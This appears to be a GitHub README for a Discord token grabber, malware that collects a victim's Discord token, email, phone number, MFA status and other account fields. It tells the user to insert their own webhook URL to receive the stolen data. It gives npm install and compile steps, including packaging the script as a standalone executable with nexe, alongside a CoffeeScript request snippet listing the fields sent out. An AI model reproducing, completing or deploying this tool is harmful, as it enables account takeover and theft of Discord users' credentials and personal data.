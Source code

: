 # Discord token grabber

installation ( coffeescript ):
  `npm install coffee-script -g -d`

  modules:
    `npm install`
    
![ScreenShot](/screen/Capture2.png)
replace 'url' with your webhook

compile ( js ):
  `coffee --compile lib main.coffee` and `cd lib`

compile ( js -> exe ):
   `npm install nexe -g -d` and `nexe main.js`


request:
```coffee

setting =
  headers: 'Content-Type': 'application/json'
  body: 
    embeds:
      title
      token
      uuid
      tag
      username
      discriminator
      email
      phone
      verified
      nsfw_allowed
      mfa_enabled
      locale
      bio
      banner
return
```

result:

![ScreenShot](/screen/Capture.png)
